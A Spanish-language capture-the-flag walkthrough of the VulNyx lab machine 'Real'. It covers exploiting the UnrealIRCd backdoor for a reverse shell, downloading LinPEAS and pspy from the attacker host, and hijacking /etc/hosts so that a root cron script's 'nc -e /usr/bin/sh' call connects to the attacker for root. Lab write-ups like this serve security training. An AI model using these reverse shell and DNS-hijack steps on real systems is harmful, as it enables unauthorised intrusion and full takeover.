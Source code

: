 # WriteUp: Real | VulNyx

## <mark style="color:yellow;">Fase 1: Reconocimiento Inicial</mark>

Como siempre, mi primer paso fue realizar un reconocimiento exhaustivo de la máquina objetivo. Comencé con un escaneo rápido de `nmap` para descubrir todos los puertos TCP abiertos.

```bash
nmap -n -Pn -sS -p- --min-rate 5000 192.168.56.30

PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
6667/tcp open  irc
6697/tcp open  ircs-u
8067/tcp open  infi-async
```

El escaneo reveló varios puertos interesantes, incluyendo SSH, HTTP y tres puertos asociados con IRC (Internet Relay Chat). Para obtener más detalles, ejecuté un segundo escaneo más profundo para identificar las versiones de los servicios.

```bash
nmap -sVC -p22,80,6667,6697,8067 192.168.56.30

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
...
80/tcp   open  http    Apache httpd 2.4.38 ((Debian))
|_http-title: Apache2 Debian Default Page: It works
6667/tcp open  irc     UnrealIRCd
6697/tcp open  irc     UnrealIRCd
8067/tcp open  irc     UnrealIRCd
```

El hallazgo clave aquí fue el software del servidor IRC: UnrealIRCd. Este software, especialmente en versiones antiguas, es conocido por haber tenido vulnerabilidades críticas. El servidor web en el puerto 80 mostraba la página por defecto de Apache, y un escaneo con `gobuster` no reveló ningún directorio o archivo de interés, por lo que centré toda mi atención en el servicio IRC.

## <mark style="color:yellow;">Fase 2: Explotación del Backdoor de UnrealIRCd</mark>

No conocía a fondo el servicio IRC, pero una búsqueda rápida sobre "UnrealIRCd exploit" me llevó a una de las vulnerabilidades más famosas: un backdoor intencional introducido en la versión 3.2.8.1. Este backdoor fue agregado al código fuente oficial por un atacante y permitía la ejecución remota de comandos.

Nmap cuenta con un script específico (`irc-unrealircd-backdoor`) para detectar esta vulnerabilidad. Lo ejecuté para confirmar mis sospechas.

```bash
nmap -p6667 --script="irc-unrealircd-backdoor" 192.168.56.30
```

El script confirmó que el servidor era vulnerable. Con esta confirmación, busqué un exploit público y encontré uno muy conveniente en GitHub. Este exploit simplifica el proceso de enviar el payload malicioso al servidor IRC.

Para recibir la conexión, primero puse un listener de `netcat` en mi máquina atacante en el puerto 4444.

```bash
nc -nlvp 4444
```

Luego, ejecuté el exploit de Python que había descargado, apuntando a la IP de la víctima y al puerto del servicio IRC.

```bash
python3 exploit.py 192.168.56.30 6667 -payload python

# Salida del exploit
Exploit sent successfully!
```

Inmediatamente, recibí una conexión en mi listener, obteniendo una shell en la máquina víctima como el usuario `server`.

```bash
listening on [any] 4444 ...
connect to [192.168.56.22] from (UNKNOWN) [192.168.56.30] 56420
id
uid=1000(server) gid=1000(server) groups=1000(server)
```

La shell que obtuve era básica y no interactiva. Para poder trabajar de manera más cómoda (usar autocompletado, historial, etc.), la actualicé a una TTY completamente funcional siguiendo el procedimiento estándar.

```bash
# 1. Mejorar la shell inicial con Python
python3 -c 'import pty; pty.spawn("/bin/bash")'

# 2. Poner el proceso en segundo plano (background)
Ctrl-Z

# 3. Preparar mi terminal local para la TTY
stty raw -echo; fg

# 4. Configurar la terminal remota
export TERM=xterm
reset
```

Con esto, ya tenía una shell estable y completamente funcional para empezar la fase de post-explotación.

## <mark style="color:yellow;">Fase 3: Enumeración Local y Descubrimiento de Vectores</mark>

Para acelerar el proceso de búsqueda de vectores de escalada de privilegios, decidí utilizar LinPEAS, un script automatizado que busca malas configuraciones, permisos inusuales y vulnerabilidades conocidas en sistemas Linux.

Primero, levanté un servidor HTTP simple en mi máquina Kali desde el directorio donde tenía el script de LinPEAS.

```bash
# En mi máquina Kali
cd /usr/share/peass/linpeas
python3 -m http.server 80
```

Luego, desde la máquina víctima, navegué al directorio `/tmp` (que casi siempre tiene permisos de escritura), descargué el script y lo ejecuté.

```bash
# En la máquina víctima
cd /tmp
wget http://192.168.56.22/linpeas.sh
chmod +x linpeas.sh
./linpeas.sh
```

Después de revisar la extensa salida de LinPEAS, dos hallazgos destacaron inmediatamente:

<figure><img src="../../.gitbook/assets/Pasted image 20251001101911.png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/Pasted image 20251001102121.png" alt=""><figcaption></figcaption></figure>

1. Capacidades de Linux: El binario `/usr/bin/ping` tenía la capacidad `cap_net_raw+ep`. Esta capacidad permite a un proceso crear "raw sockets", lo cual es necesario para que `ping` envíe paquetes ICMP. Por sí sola, no es una vulnerabilidad grave.
2. Permisos de Archivos: El archivo `/etc/hosts` tenía permisos de escritura para mi usuario (`server`). ¡Esto sí es una vulnerabilidad crítica! El archivo `/etc/hosts` permite mapear nombres de dominio a direcciones IP a nivel de sistema. Tener control sobre él significa que puedo realizar DNS spoofing local, redirigiendo cualquier solicitud de dominio a una IP de mi elección.

La combinación de estos dos hallazgos era mi principal pista. Podía modificar `/etc/hosts` para que un dominio cualquiera apuntara a mi máquina, y luego usar `ping` para verificar que la redirección funcionaba. Aunque esto no me daba privilegios directamente, era una prueba de concepto sólida de que podía secuestrar el tráfico de cualquier proceso que utilizara nombres de dominio.

## <mark style="color:yellow;">Fase 4: Escalada de Privilegios por DNS Spoofing</mark>

Sabía que había algo más. Para descubrir qué procesos se ejecutaban en segundo plano, utilicé pspy, una herramienta que monitorea procesos en tiempo real sin necesidad de permisos de root. Es excelente para encontrar tareas `cron` o scripts que se ejecutan periódicamente.

Descargué `pspy64` en la máquina víctima (siguiendo el mismo método que con LinPEAS) y lo ejecuté.

```bash
./pspy64
```

Al poco tiempo, un patrón claro apareció en la salida:

<figure><img src="../../.gitbook/assets/Pasted image 20251001183304.png" alt=""><figcaption></figcaption></figure>

Cada minuto, un script llamado `/opt/task` se ejecutaba como UID=0 (root). Dentro de ese script, se ejecutaba un comando `ping` al dominio `shelly.real.nyx`. Esta era la pieza que me faltaba.

Revisé el contenido del script `/opt/task`:

```bash
#!/bin/bash

domain='shelly.real.nyx'

function check(){

       timeout 1 bash -c "/usr/bin/ping -c 1 $domain" > /dev/null 2>&1
   if [ "$(echo $?)" == "0" ]; then
       /usr/bin/nohup nc -e /usr/bin/sh $domain 65000
       exit 0
   else
       exit 1
   fi
}

check
```

El script era una puerta trasera esperando ser activada. Su lógica es simple:

1. Hace `ping` al dominio `shelly.real.nyx`.
2. Si el `ping` es exitoso (código de salida `0`), inmediatamente ejecuta `netcat` para enviar una reverse shell (`/usr/bin/sh`) a ese mismo dominio en el puerto `65000`.

El plan de ataque era ahora evidente. Solo tenía que usar mi permiso de escritura en `/etc/hosts` para hacer que el dominio `shelly.real.nyx` se resolviera a la dirección IP de mi máquina Kali.

Edité el archivo `/etc/hosts`:

```bash
# Agregué la siguiente línea al final del archivo
192.168.56.22   shelly.real.nyx
```

Finalmente, en mi máquina Kali, me puse a la escucha en el puerto `65000`.

```bash
nc -nlvp 65000
```

Esperé menos de un minuto a que la tarea cron se ejecutara. El script `/opt/task`, ahora ejecutándose como `root`, hizo `ping` a `shelly.real.nyx`, mi `ping` respondió, y la condición del `if` se cumplió, lanzando la reverse shell directamente a mi listener.

```bash
listening on [any] 65000 ...
connect to [192.168.56.22] from (UNKNOWN) [192.168.56.31] 45842
id
uid=0(root) gid=0(root) groups=0(root)
```

Con esto, había escalado privilegios y comprometido completamente la máquina.
